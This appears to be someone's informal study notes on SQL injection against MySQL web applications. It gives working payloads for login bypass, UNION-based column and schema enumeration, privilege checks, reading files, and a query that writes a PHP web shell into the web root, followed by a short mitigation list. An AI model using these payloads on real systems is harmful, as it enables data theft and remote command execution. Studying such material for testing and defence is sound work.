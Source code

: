 Mysql client >> do not provide flag for password as it is stored in history in cleartext

Check privs with *SHOW GRANTS*

## Types of injection
 - Blind
 - In band
 -  out of band

#### Blind - Boolean based/ Time Based
#### In Band - Union Based / Error Based
#### Out of Band - No output but effect other location


## Subverting Query Logic

Test if form is vulnerable to SQLinjection, does it filter `(', ;, :, #)`

Can add `' OR 1 = 1` to login fields too
use `' OR 1 =1 ` in the username field if we know the admin login
use `' OR 1 = 1 ` in password field to select first user from the database (Which is usually admin)

Passwords are usually hashed so is tricky to SQL inject with them.


###### Comment shit out with ;-- - to kill off a line (can also use %23(#))

### Union Combines Results

Union combines results with other fields using the union as CrossRef 

before using union injections we need to find amount of rows in tables.

incrimenting order by untill we get an error 

example 
```SQL
 ' ORDER BY 1 ---                                '
-- ADD ANOTHER NUMBER UNTIL ERROR
 ' ORDER BY 2 --                                  ' 
 ERROR
 One COLUMN
```

Not all columns always visible.
using columns as junk data allows us to see which columns are being printed

```sql
cn' UNION select 1,@@version,3,4-- -
```
will display version

cn' UNION SELECT 1, user(), 3 4; -- -


### MYSQL Fingerprinting

SELECT @@version

Information SCHEMA
Most databases have a schema. this shows metadata, databases and tables present on server.

```shell-session
SELECT * FROM INFORMATION_SCHEMA.SCHEMATA;
```

INFORMATION_SCHEMA.TABLES > TABLE_NAME(names) & TABLE_SCHEMA()

> Find printed numbers
> Select TABLE_SCHEMA and TABLE_NAME in those

we can then enum column names with COLUMN_NAME

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='products'-- -
```


we can then use {TABLE_SCHEMA}.{TABLE_NAME} for our search functions

#### Reading Files

Relies on LOAD_FILE() function of sql

SQL can see user with SELECT USER()
can check user privs with
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Possible that php code can display in the browser

#### Writing Files
secure_file_priv allows writing to files.  can check with

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

if Secure file priv is empty then anyone can read/write

to write files use INTO OUTFILE '/file/path'
> It is possible to send strings directly to the outfile
```sql
SELECT "HELLO" from users INTO OUTFILE '/etc/passwd'
```

the files that are created are then owned by the sql server.
if the sql server is running root and makes a shell it will be root

__Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.__

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
^STOLEN SHELL
### MITIGATION
 
- Input Sanitization
- Input Validation
- User privileges  - Server reader should not be able to read/write files. and can only read certain tables.
- Web Application Firewall(waf) which detects any malicious http requests and rejects 

